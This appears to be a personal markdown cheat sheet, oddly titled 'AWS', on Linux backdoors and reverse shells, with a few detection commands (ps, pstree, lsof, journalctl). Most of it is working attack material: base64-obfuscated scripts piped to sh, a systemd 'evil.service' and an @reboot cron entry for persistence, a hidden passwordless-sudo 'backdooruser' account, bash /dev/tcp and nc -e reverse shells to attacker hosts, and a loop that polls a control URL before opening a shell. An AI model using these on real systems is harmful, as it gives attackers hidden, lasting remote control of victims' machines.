 ```yaml
---
title: AWS 
date: 2023-08-01
tags: [networking,homelab]
---
```


obsfucation :

origin is the actual script 

```
echo "echo $(base64 origin)" > obsf
chmod +x obsf
```

Running it 
```
sh obsf | base64 -d | sh
```

### Abusing Remote Access Without a Visible Session

`ssh user@host 'sudo apt install backdoor && systemctl enable backdoor'` 

you can catch it from 

`journalctl -u ssh`

### Dropping a systemd service 

Example evil service 

open a reverse shell
```
# /etc/systemd/system/evil.service
[Unit]
Description=Evil Backdoor Service
After=network.target

[Service]
ExecStart=/bin/bash -c '/bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
```

### cron stuff 

```
@reboot root /usr/bin/evil_payload
```

## Shell stuff

### Reverse shell 

#### how do you find a shell ? 

Use ps to look for shells with no tty 

`ps -eo pid,user,tty,cmd | grep '[b]ash'`

Then check the parent process with 

`pstree -p <PID>`

you can also use 

`ps aux | grep bash`

*** Ussing lsof to see established connections  :- ***

`sudo lsof -i -nP | grep ESTABLISHED`

Start a shell 

```
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```
#### Disable root login

`PermitRootLogin no`

#### starting a reverse shell 

- we need to create an account first that only uses keys

Name it something like *** sysuser *** 

```
sudo adduser backdooruser
sudo usermod -aG sudo backdooruser

sudo visudo
backdooruser ALL=(ALL) NOPASSWD:ALL
```
NOPASSWD helpful for running sudo commands without sudo being prompted 

- setup ssh login 

```
ssh-keygen -t rsa -b 4096

sudo su - backdooruser
mkdir -p ~/.ssh
nano ~/.ssh/authorized_keys 
```

and paste your public key 

expected permissions 

```
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```


- Disable password login

```
sudo nano /etc/ssh/sshd_config
Match User backdooruser
    PasswordAuthentication no
    AuthenticationMethods publickey
``` 

then 

`sudo systemctl restart sshd`


- 2 ways to do a revshell 

```
bash -i >& /dev/tcp/attacker-ip/4242 0>&1
nc ATTACKER_IP 4444 -e /bin/bash
```

prefer to use tcp so that you can disable nc 

```
#!/bin/bash
URL="https://rasenrhino.github.io/static/reverse.html"  # Control server
SHELL_HOST="172.25.0.2"                      # Replace with your attacker's IP
SHELL_PORT=4242 # Port your listener is using
# Loop to check the control server
while true; do
    response=$(curl -s "$URL")
    echo $response
    if [[ "$response" == "yes" ]]; then
        echo "starting revshell"
        bash -i >& /dev/tcp/$SHELL_HOST/$SHELL_PORT 0>&1
    fi
    sleep 5
done
```
